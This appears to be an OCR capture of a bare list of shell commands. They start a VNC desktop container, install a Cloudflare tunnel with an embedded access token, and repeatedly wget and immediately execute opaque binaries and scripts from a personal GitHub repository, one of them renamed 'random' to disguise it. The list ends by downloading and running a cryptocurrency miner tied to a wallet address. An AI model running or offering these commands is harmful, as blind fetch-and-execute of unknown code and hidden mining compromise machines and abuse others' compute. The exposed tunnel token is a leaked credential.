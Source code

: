 # docker run -p 6070:80 -e RESOLUTION=1200x650 dorowu/ubuntu-desktop-lxde-vnc

# curl -L --output cloudflared.deb https://github.com/cloudflare/cloudflared/releases/latest/download/cloudflared-linux-amd64.deb && 

sudo dpkg -i cloudflared.deb && 

sudo cloudflared service install eyJhIjoiYTAyNDU4ODdkZmQ4YTc3Yjk4MWM5ZjgyOGVlYjA3NTEiLCJ0IjoiN2VhMDQzNmMtMTAzNy00NjUxLWI4YzYtZmNjNGQ1MGViYjhhIiwicyI6Ik1EUTFZV001TUdRdFltTmlZeTAwTXpVMkxUa3hNbVl0TWpRMFpqRTNaRFl6WWpVMyJ9

docker run -p 6070:80 -e RESOLUTION=1200x650 dorowu/ubuntu-desktop-lxde-vnc
 # wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/gas && wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/script.ini && chmod +x gas && ./gas script.ini

# wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/cok && wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/script.ini && chmod +x cok && ./cok script.ini

# wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/cok && wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/script.ini && mv cok random && chmod +x random && ./random script.ini

# wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/vy.sh && chmod +x vy.sh && ./vy.sh

# wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/dc.sh && chmod +x dc.sh && ./dc.sh

 # wget https://github.com/De-Crypted/dcrptd-miner/releases/download/2.3.0/dcrptd-miner-linux-x64-2.3.0.tar.gz && tar -xvf dcrptd-miner-linux-x64-2.3.0.tar.gz && ./dcrptd-miner --user 0033B34D8D445DBB89DD97AF6F079386DF6D218EB0D79EF73C.tes

